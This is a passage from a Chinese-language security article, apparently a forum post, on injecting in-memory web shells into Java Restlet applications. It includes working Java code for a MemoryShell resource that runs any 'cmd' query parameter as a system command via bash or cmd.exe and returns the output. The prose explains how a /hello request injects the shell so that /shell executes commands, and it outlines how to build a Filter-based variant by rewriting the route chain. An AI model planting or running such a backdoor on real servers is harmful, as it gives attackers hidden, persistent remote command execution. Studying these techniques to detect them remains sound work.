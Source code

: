 ```java
            e.printStackTrace();
        }
    }

    public static class MemoryShell extends ServerResource{
        @Get
        public String represent() {
            Request request = getRequest();
            String param1 = (String) request.getResourceRef().getQueryAsForm().getFirstValue("cmd");

            try{
                String[] cmds = System.getProperty("os.name").toLowerCase().contains("win")
                        ? new String[]{"cmd.exe", "/c", param1}
                        : new String[]{"/bin/bash", "-c", param1};
                String output = (new java.util.Scanner((new ProcessBuilder(cmds)).start().getInputStream())).useDelimiter("\\A").next();
                return output;
            } catch (Exception e){
                return e.toString();
            }
        }
    }
}
```

接着访问/hello接口来注入内存马，可以通过查询Router对象下routes属性来查看路由列表，可以看到已经成功注入

![image-20240831112652835.png](https://shs3.b.qianxin.com/attack_forum/2024/09/attach-3a9241abb5f4134c6eafcc7caaae856ed8712a0c.png)

当访问到/shell接口时就会调用到MemoryShell类下的方法执行命令

![image-20240831112939794.png](https://shs3.b.qianxin.com/attack_forum/2024/09/attach-502f2c8e3eee0957a07ec7a7e06f7395a8c471cd.png)

Filter内存马
---------

Filter的内存马构造相对来说会复杂一点，因为在Restlet 中不存在默认的全局过滤器，开发者必须显式添加自定义的过滤器

在测试环境中，设置了/hello接口的过滤器为MyCustomFilter，在该过滤器类的beforeHandle方法下断点，当请求到达资源类前会先经过该方法，通过查看调用栈可以知道前面并没有经过其他的过滤器

![image-20240831121510904.png](https://shs3.b.qianxin.com/attack_forum/2024/09/attach-6d2a4c92259fbaf1899e783dd5a401c19a3c4524.png)

当请求到达服务端时，程序会匹配routes下的路由规则，获取到next属性的对象，该对象即为下一个处理器

```java
//当前处理器链
/hello -> MyCustomFilter -> MyResource.class
```

![image-20240831122042611.png](https://shs3.b.qianxin.com/attack_forum/2024/09/attach-d02612593281625c83ce73975ae85f11e7635a5a.png)

所以如果需要添加Filter内存马的话，需要自行修改TemplateRoute对象的next属性，相当于在处理器链开头新插入一个元素
